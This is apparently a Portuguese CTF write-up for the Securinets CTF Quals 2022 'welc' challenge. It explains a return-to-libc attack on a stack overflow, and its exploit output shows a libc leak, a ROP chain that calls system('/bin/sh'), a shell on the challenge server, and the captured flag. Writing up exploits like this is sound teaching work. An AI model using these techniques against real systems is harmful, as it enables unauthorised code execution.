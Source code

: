 ```yaml
---
layout: default
title: Welcome - [Securinets CTF Quals 2022] - Return to libc com pwntools
date: 2022-04-11 20:53
author: obrerodrigues
comments: true
categories: [CTFs]
---
```

**Link para o challenge: https://github.com/brerodrigues/exploit_drafts/tree/main/ctfing/Securinets_CTF_Quals_2022/1_welc**

Um clássico stack overflow. O binário não tem **stack canaries** nem **PIE**, mas está com **NX** ligado, então nada de shellcode. Por ter vindo uma libc junto do challenge, um ataque **return-to-libc** é facilitado e possível mesmo que o servidor esteja com **ASLR** habilitado.

* Primeiro obtenho um leak do endereço de puts na libc. Consigo fazer isso com facilidade porque sem PIE no binário posso utilizar todos os endereços do mesmo. Depois de obter o endereço de puts, reinicio o binário finalizando minha primeira rop chain com o endereço de \_start. 
* Com o leak, basta usar um pouco de matemática para calcular on-demand o endereço de qualquer função da libc e montar uma segunda rop chain para executar **system('/bin/sh')**, obter a shell e ler a flag.

Esse resumo pode ter parecido grego para o não iniciado, então para os novinhos recomendo o liveoverflow explicando que porra é ret2libc: https://www.youtube.com/watch?v=m17mV24TgwY

A execução e o código do exploit completo podem ser observados abaixo. Destaco a facilidade que é utilizar a pwntools para criar rop chains (e vários outros processos repetitivos manuais necessários para escrever um exploit, vale a pena aprender e dominar essa porra) e demonstro no código essa diferença. Tentei comentar o que achei interessante para complementar a postagem.

```
b@vbm ~/c/s/pwn1> python3 xpl.py
[+] Opening connection to 20.216.39.14 on port 1237: Done
[*] '/home/b/ctf/securinets/pwn1/welc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './welc'
Zied likes degla b zbib ! what about you ?
[*] '/home/b/ctf/securinets/pwn1/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Leaked puts 0x7f4b74d56450
System address 0x7f4b74d242c0
/bin/sh address 0x7f4b74e865bd
0x0000:         0x40101a ret
0x0008:         0x401283 pop rdi; ret
0x0010:              0x0 [arg0] rdi = 0
0x0018:         0x401281 pop rsi; pop r15; ret
0x0020:              0x0 [arg1] rsi = 0
0x0028:      b'kaaalaaa' <pad r15>
0x0030:   0x7f4b74de6980
0x0038:         0x401283 pop rdi; ret
0x0040:   0x7f4b74e865bd [arg0] rdi = 139962060662205
0x0048:   0x7f4b74d242c0
Press enter to pwn...
Zied likes degla b zbib ! what about you ?
Enjoy the shell
[*] Switching to interactive mode
$ ls
flag.txt
welc
ynetd
$ cat flag.txt
Securinets{5d91d2e01b854fd457c1d8b592a19b38af6b4a33c6362b7d}
```

<script src="https://gist.github.com/brerodrigues/9161ae24483d0e2f78aef8e6318088b1.js"></script>
